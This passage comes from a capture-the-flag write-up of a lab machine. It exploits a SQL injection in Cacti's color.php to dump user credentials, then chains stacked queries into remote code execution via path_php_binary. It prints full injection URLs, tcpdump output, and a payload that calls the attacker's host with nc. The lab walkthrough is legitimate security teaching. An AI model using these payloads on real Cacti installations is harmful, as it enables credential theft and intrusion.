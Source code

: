 ### Exploit SQLi –> RCE

#### SQLI POC

Following the POC in the issue, there is an injection into `/cacti/color.php`,
in the `filter` parameter. I should be able to visit
`/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;--+-`
and get back a list of usernames and passwords. It works:

[![image-20210422140023940](https://0xdfimages.gitlab.io/img/image-20210422140023940.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210422140023940.png)

It POC also shows that I could stack queries, putting another query after the
`;`. In the example, it does an `update` to change one of the users username,
but I don’t need that.

#### RCE POC

I could enumerate the DB from there, but the POC in the GitHub issue goes on.
The idea here is to stack a second query that updates the `path_php_binary`
column in the `settings` table, and then trigger that to be executed. In the
example, the author uses a `touch` commands to show it works. I’ll use a
`ping`.

    
    
    /cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='ping+-c+1+10.10.14.7;'+where+name='path_php_binary';--+-
    

Now with `tcpdump` running, I’ll visit `http://cacti-
admin.monitors.htb/cacti/host.php?action=reindex` to trigger, and Monitors
sends ICMP packets:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:04:37.782418 IP 10.10.10.238 > 10.10.14.7: ICMP echo request, id 3035, seq 1, length 64
    14:04:37.782445 IP 10.10.14.7 > 10.10.10.238: ICMP echo reply, id 3035, seq 1, length 64
    

#### Difficulties

The hardest part of getting a shell for me was learning a quirk about the RCE
and how the `host.php` trigger worked. I was set up with the request to do the
SQL injection in one Burp Repeater window, and the trigger via `host.php` in
another. I noticed that even after I changed the payload, I was still getting
pings.

I updated the injection request to print what was in the `path_php_binary`
variable before it changed it:

    
    
    /cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name='path_php_binary';update+settings+set+value='nc+10.10.14.7+443'+where+name='path_php_binary';--+- 
    